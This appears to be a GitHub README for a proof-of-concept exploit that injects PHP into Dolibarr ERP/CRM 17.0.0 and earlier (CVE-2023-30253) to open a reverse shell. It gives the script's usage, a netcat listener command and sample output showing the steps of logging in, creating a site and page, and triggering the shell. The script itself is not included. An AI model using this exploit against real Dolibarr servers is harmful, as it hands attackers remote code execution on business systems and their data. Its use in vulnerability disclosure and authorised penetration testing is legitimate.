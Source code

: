 # POC exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)
Reverse Shell POC exploit for **`Dolibarr <= 17.0.0 (CVE-2023-30253)`**, PHP Code Injection

See more details about the vulnerability [**here**](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

## PoC

Help of exploit:
```
➜  python3 exploit.py -h
usage: python3 exploit.py <TARGET_HOSTNAME> <USERNAME> <PASSWORD> <LHOST> <LPORT>
example: python3 exploit.py http://example.com login password 127.0.0.1 9001

---[Reverse Shell Exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)]---

positional arguments:
  hostname    Target hostname
  username    Username of Dolibarr ERP/CRM
  password    Password of Dolibarr ERP/CRM
  lhost       Listening host for reverse shell
  lport       Listening port for reverse shell

options:
  -h, --help  show this help message and exit
```

Run the netcat on your host:
``` 
➜ nc -lvnp 9001
```
Run the exploit (example):
```
➜ python3 exploit.py http://example.com login passsword 127.0.0.1 9001
[*] Trying authentication...
[**] Login: login
[**] Password: password
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
